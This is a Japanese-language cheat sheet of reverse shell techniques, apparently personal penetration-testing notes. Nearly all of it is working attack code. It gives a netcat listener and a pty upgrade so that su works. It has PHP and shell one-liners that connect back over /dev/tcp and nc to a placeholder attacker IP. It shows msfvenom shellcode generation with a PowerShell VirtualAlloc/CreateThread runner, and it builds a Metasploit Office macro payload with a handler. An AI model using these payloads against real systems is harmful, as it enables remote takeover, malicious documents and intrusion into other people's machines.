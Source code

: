 # リバースシェル

## メモ

### listen

```shell
nc -lvp <port>
```

### リバースシェルで su を実行できるようにする魔法

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
su - <user>
```

## 言語別

### PHP

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'") ?>
```

### shell
```shell
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f
```

### msfvenom & Powershell シェルコード
```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f powershell

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of powershell file: 2259 bytes
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,（長いので省略）
```

PowerShellで、この buf のバイト列を、VirtualAllocしたメモリにコピーし、CreateThreadにアドレスを渡すことで実行される。  
ウイルス検出されるので全体は書けないが、↓のイメージ。

```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
```

### Office マクロ
```shell
msf6> set payload windows/meterpreter/reverse_tcp
msf6> use exploit/multi/fileformat/office_word_macro
set LHOST <ip>
set LPORT <port>
exploit
ls .msf4/local/msf.docm 
```

listen

```shell
msf6 > use multi/handler
set LHOST <ip>
set LPORT <port>
exploit
```
